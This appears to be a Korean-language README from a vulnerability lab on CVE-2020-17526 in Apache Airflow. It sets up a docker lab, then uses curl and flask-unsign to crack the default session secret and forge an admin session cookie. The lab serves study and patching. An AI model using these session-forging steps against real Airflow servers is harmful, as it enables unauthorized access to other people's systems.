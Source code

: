 # CVE-2020-17526

**Contributors**

-   [박준서(@DerekAlbertJun)](https://github.com/DerekAlbertJun)

<br/>

### 요약

-   Apache Airflow는 인증을 기본으로 필요로 하지 않지만, 관리자는 인증을 활성화할 수 있음.
-   버전 1.10.13 이전에는 기본 세션 보안 키를 사용하며, 이로 인해 인증이 활성화된 경우 임의의 사용자를 흉내 낼 수 있음.
-   공격자가 세션 키를 해독하여 임의의 사용자로 로그인하는 과정을 다룸.

<br/>

### 환경 구성 및 실행

-   Apache Airflow 1.10.10 서버를 실행하려면 다음 명령을 실행한다.
데이터베이스 초기화
‘docker compose run airflow-init‘

서비스 시작
’docker compose up –d‘
-   서버가 실행되면 웹 브라우저에서 ‘http://your-ip:8080’ 주소로 이동하여 Apache Airflow의 로그인 페이지를 확인할 수 있다. 이 서버는 인증이 필요하다.
-   공격 과정을 수행하기 위해 먼저 로그인 페이지로 이동하고, Cookie에서 세션 문자열을 가져온다.
‘curl –v http://localhost:8080/admin/airflow/login’
-    그런 다음 flask-unsign을 사용하여 세션 키를 해독한다.
‘flask-unsign –u –c [Cookie에서 가져온 세션]’
-    유효한 세션 키인 temporary_key를 얻는다. 이 키를 사용하여 user_id가 1인 새로운 세션을 생성한다.
‘flask-unsign –s —secret temporary_key –c “{’user_id’ : ‘1’, ‘_fresh’ : False, ‘_permanent’ : True}”’
-    마지막으로 이 생성된 세션을 사용하여 성공적으로 로그인한다.


<br/>

### 결과
nginx 아래에 result.png 확인 부탁드립니다.. 
![](result.png)

<br/>

### 정리

-   이 취약점은 Apache Airflow에서 인증 우회를 허용했기 때문에, 공격자가 인증된 사용자로 위장하여 시스템에 접근할 수 있는 문제를 발생시킵니다. 안전한 웹 서비스 운영을 위해서는 이러한 취약점을 주기적으로 확인하고 패치하는 것이 중요합니다. 
